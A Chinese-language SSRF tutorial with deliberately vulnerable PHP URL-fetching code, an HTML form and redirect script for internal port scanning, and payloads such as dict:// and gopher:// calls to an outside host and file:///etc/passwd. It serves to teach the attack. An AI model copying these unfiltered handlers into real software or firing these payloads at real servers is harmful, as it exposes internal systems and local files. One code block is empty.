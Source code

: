 SSRF
====

SSRF 简介
---------

SSRF，Server-Side Request
Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF
攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner
   信息；
2. 攻击运行在内网或本地的应用程序（比如溢出）；
3. 对内网 web 应用进行指纹识别，通过访问默认文件实现；
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如
   Struts2，sqli 等）；
5. 利用 ``file`` 协议读取本地文件等。

SSRF 漏洞出现的场景
-------------------

-  能够对外发起网络请求的地方，就可能存在 SSRF 漏洞。
-  从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）。
-  数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）。
-  Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）。
-  文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）。

常用的后端实现
--------------

1. ``file_get_contents``

``php    <?php    if (isset($_POST['url']))     {     $content = file_get_contents($_POST['url']);     $filename ='./images/'.rand().';img1.jpg';     file_put_contents($filename, $content);     echo $_POST['url'];     $img = "<img src=\"".$filename."\"/>";     }     echo $img;     ?>``

这段代码使用 ``file_get_contents`` 函数从用户指定的 URL
获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

2. ``fsockopen()``

``php    <?php     function GetFile($host,$port,$link)     {     $fp = fsockopen($host, intval($port), $errno, $errstr, 30);     if (!$fp) {     echo "$errstr (error number $errno) \n";     } else {     $out = "GET $link HTTP/1.1\r\n";     $out .= "Host: $host\r\n";     $out .= "Connection: Close\r\n\r\n";     $out .= "\r\n";     fwrite($fp, $out);     $contents='';     while (!feof($fp)) {     $contents.= fgets($fp, 1024);     }     fclose($fp);     return $contents;     }     }    ?>``

这段代码使用 ``fsockopen`` 函数实现获取用户制定 URL 的数据（文件或者
HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

3. ``curl_exec()``

\`\`\`php \`\`\`

使用 ``curl`` 获取数据。

阻碍 SSRF 漏洞利用的场景
------------------------

-  服务器开启 OpenSSL 无法进行交互利用
-  服务端需要鉴权（Cookies & User：Pass）不能完美利用

利用 SSRF 进行端口扫描
----------------------

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的
banner 信息判断端口状态。

后端实现

.. code:: php

    <?php 
    if (isset($_POST['url']))
    {
    $link = $_POST['url'];
    $filename = './curled/'.rand().'txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj, CURLOPT_FILE, $fp);
    curl_setopt($curlobj, CURLOPT_HEADER, 0);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename)); 
    fclose($fp);
    echo $result;
    }
    ?>

构造一个前端页面

.. code:: html

    <html>
    <body>
    <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
    </form>
    <script></script>
    </body>
    </html>

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

.. code:: php

    <?php
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    $scheme = $_GET['s'];
    $data = $_GET['data'];
    header("Location: $scheme://$ip:$port/$data");
    ?>

    `腾讯某处 SSRF
    漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`__

协议利用
--------

-  Dict 协议

``dict://fuzz.wuyun.org:8080/helo:dict``

-  Gopher 协议

``gopher://fuzz.wuyun.org:8080/gopher``

-  File 协议

``file:///etc/passwd``

参考资料
--------

-  `《Build Your SSRF EXP
   Autowork》猪猪侠 <http://tools.40huo.cn/#!papers.md>`__
-  `腾讯某处 SSRF
   漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`__
-  `bilibili 某分站从信息泄露到 ssrf
   再到命令执行 <https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html>`__
